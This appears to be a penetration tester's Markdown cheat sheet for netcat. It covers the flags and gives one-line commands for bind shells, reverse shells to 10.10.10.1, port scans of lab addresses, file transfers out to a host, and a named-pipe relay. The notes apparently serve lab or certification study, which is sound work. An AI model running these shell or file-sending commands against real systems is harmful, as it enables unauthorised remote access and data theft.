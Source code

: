 
Utility which reads and writes data across network connections, using TCP or UDP protocols.  
  
Server mode: Has the listener on it  
Client mode: ‘Dials’ into the server.  
  
We can use client mode to connect to any TCP/UDP port, allowing us  
	→ Check if a port is open or closed.  
	→ Read a banner from the service listening on a port.  
	→ Connect to a network service manually.  
  
  
If bind/ reverse bind won't properly execute binaries, verify whether it's a [fully interactive TTY](Fully%20Interactive%20TTY.md):
	Should see:
```bash
tty
	/dev/pts/0
```

  
  
  
**-e** - Executes a command after making or receiving a successful connection.  
	- Not available on most modern Linux/BSD systems  
	- Included w/ Kali  
	- When enabled, can redirect the input, output, and error messages of an executable to a TCP/UDP port (ex: bind shell)  
**-l** - Create a listener  
**-C** - Send CarriageReturn LineFeed (usefull when connecting via SMTP)  
**-n** - Skip DNS name resolution  
**-p** - Specify port number  
**-u** - UDP mode  
**-v** - Verbose mode  
**-w** - Specify connection timeout in seconds  
**-z** - Specifies zero-I/O mode. Used for scanning and sends no data.  
  
**nc -l** _port_ **>** _file_ - Redirect output to _file_  
**nc <** _file_ - Pushes _file_  
  
  
Bind Shells:  
```bash
nc -lvp 2222 -e cmd.exe  
nc -lvp 2222 -e /bin/bash
```


Reverse bind:  
```bash
nc -nv 10.10.10.1 -e cmd.exe  
nc -nv 10.10.10.1 -e /bin/bash
```


TCP scanning:  
```bash
nc -nvv -w 1 -z 10.11.1.220 3388-3390
```


UDP scanning:  
```bash
nc -nv -u -z -w 1 10.11.1.115 160-162
```


Transfer files from:  
```bash
nc -w 3 [destination] [port] < out.file
```


Transfer files to:  
```bash
nc -nlvp [port] > in.file
```

 
Named pipes:  
```bash
mknod [pipe] p; nc -l -p [port] < [pipe] | nc [ip] [new_port] > [pipe]
```